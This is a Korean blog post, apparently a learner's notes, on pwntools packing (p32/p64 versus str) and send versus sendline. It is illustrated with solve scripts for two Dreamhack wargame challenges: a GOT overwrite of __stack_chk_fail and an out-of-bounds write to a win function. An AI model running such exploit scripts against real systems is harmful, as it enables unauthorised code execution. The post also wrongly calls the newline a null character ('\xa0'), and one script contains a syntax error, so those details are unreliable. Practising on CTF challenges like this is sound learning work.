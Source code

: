 ```yaml
---
title: "pwntools - 페이로드 패킹 및 전송"
date: "2025.01.31"
category: "Security"
---
```

패킹 때문에 오늘 하루를 꼬박 날려서 정리해둔다   
예전에도 send랑 sendline 때문에 못 풀었던 적이 있어서 같이 정리하기로 했다   

pwntools 파이썬 모듈에는 p32, p64 함수가 존재한다   
간단하게 이분법적으로 생각하면 문자열 자체를 입력할 때에는 str() 함수를 사용하고 메모리 주소를 입력할 때에는 p32 또는 p64 함수를 사용한다   

근데 이렇게만 생각했다가 오늘 시간을 잡아먹혔기 때문에 무조건적이라 생각하면 안 된다..   
   
---

## **p64 vs p32**

둘 다 패킹 함수이지만 저장할 데이터 크기가 다르다

### p64 

64비트 즉, 8바이트 패킹에 사용된다   
데이터를 리틀 엔디언으로 변환하는데 주로 64비트 시스템에서 메모리 주소를 조작할 때 사용된다   

```c
print(p64(0x12345678abcdef01))
print(u64(b'\x01\xef\xcd\xab\x78\x56\x34\x12'))
```

```c
b'\x01\xef\xcd\xab\x78\x56\x34\x12'
1311768467750121217
```

참고로 `e.got['printf']`, `e.sym['get_shell']` 등으로 찾은 심볼은 정수 형태이므로 리틀 엔디안으로 입력할 경우 p64 함수로 패킹이 필요하다   
 
### p32

32비트 즉, 4바이트 데이터 패킹에 사용된다   
리틀 엔디언으로 변환하며 32비트 시스템에서 주로 사용된다   

---

## **str vs p64 / p32**

[https://dreamhack.io/wargame/challenges/32](https://dreamhack.io/wargame/challenges/32)


```c
int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

임의의 주소값에 원하는 값을 대입할 수 있는 바이너리이다   
buf 입력을 0x80만큼 받기 때문에 버퍼 오버플로우가 발생할 수도 있어 ret 주소를 get \_shell 함수의 주소로 바꾸어 풀이할 수도 있을 것 같다   
system 함수가 실행되도록 movaps도 같이 신경 써주면 풀릴 것 같지만 직접 해보지 않았다..

---

![External Image](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FCx0D8%2FbtsL2dszNR8%2FVyAXeXDSYkUaeedN9dIG61%2Fimg.png)

카나리 값이 어긋나면 \_\_stack\_chk\_fail 을 호출하기 때문에 \_\_stack\_chk\_fail의 GOT를 get\_shell 주소로 덮어씌워 풀이했다

---

```python
from pwn import *

port = 00000
p = process('./ssp_000')
p = remote('host1.dreamhack.games', port)
e = ELF('./ssp_000', checksec = False)

# context.log_level = 'debug'

payload = b'A' * 0x4a

p.send(payload)
p.sendlineafter(b'Addr : ', str(e.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ', str(e.sym['get_shell']))

p.interactive()
```

메모리 주소는 p64, 문자열 전달은 str이라는 이분법적 사고에 사로잡혀 있어서 못 풀고 있었다..   
본 문제에서는 주소와 값을 %ld로 그대로 전달 받기 때문에 모두 str로 묶어서 별다른 패킹 없이 전달해줘야 한다
   
---

[https://dreamhack.io/wargame/challenges/1617](https://dreamhack.io/wargame/challenges/1617)
![External Image](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FnuGMW%2FbtsL3jlrXzc%2FvZs8lHE3Itp7LDPFfYe5EK%2Fimg.png)

Out of Bound로 푸는 문제다

---

```python
from pwn import *

p = process('./prob')
p = remote('host1.dreamhack.games', 17260)
e = ELF('./prob', checksec = False)

p.sendlineafter(b'val: ', b'-15'))
p.sendlineafter(b'val: ', str(e.sym['win']).encode())

p.interactive()
```

buf의 인덱스에 값이 %lu로 들어가는 것이기에 패킹을 하면 안 된다

바보 같은 나는 메모리 주소는 무조건 패킹이라 생각하고 p64 씌워놓고 왜 안 되지 하면서 무한 삽질 중이었다..   
아무튼 이렇게 값이 어떻게 전달되는지 확실하게 확인하고 패킹을 씌울지 말지 정해야 한다

---

## **send / sendline**

처음 로드맵 따라갈 때 이것 때문에 애를 좀 먹었다   
지금은 잘 알고 쓰고 있지만 그냥 같이 정리해본다   

scanf 또는 read 함수 등에 값을 입력할 때 사용자는 입력을 완료하기 위해 엔터를 눌러 널 문자(\\xa0)로 문자열의 종료를 알린다   
이때 scanf는 널 문자를 버리지만 read는 널 문자까지 받아버린다

send 함수는 인자 그대로 전송하고, sendline 함수는 인자에 널 문자를 붙여서 보낸다   
그래서 read 함수에 sendline으로 페이로드나 메모리 주소를 전달하면 널 문자가 포함되어 원하는대로 동작이 실행되지 않을 수도 있다   
특히 카나리에 덮어씌울 때 조심해야 한다

이제 막 시스템 해킹 로드맵을 끝내서 후에 예외가 발생할 지는 아직 모르겠지만 현재로서는 read 함수에는 send, scanf 함수에는 sendline을 사용하고 있다